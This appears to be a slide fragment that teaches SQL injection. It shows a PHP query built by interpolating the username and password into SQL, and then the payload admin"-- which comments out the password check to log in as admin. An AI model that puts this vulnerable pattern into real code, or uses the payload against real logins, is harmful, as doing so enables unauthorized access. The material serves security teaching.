

$connection->fetchAssoc('
SELECT * FROM user WHERE username = "$username" AND password = "$password"
	');

With $username = 'admin"-- '

SELECT * FROM user WHERE username = "admin"-- " AND password = ""

Let’s be admin